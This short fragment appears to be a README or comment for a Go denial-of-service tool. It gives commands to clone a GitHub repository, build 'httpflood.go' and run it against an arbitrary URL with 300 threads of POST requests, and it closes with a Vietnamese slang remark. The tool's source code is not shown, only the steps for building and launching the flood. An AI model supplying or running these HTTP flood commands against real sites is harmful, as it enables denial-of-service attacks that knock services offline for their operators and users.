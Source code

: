 # git clone https://github.com/thanhdztam/Thanhdz
# cd Thanhdz
# go build httpflood.go
# ./httpflood <URL> 300 post 200 nil
# khá lỏ
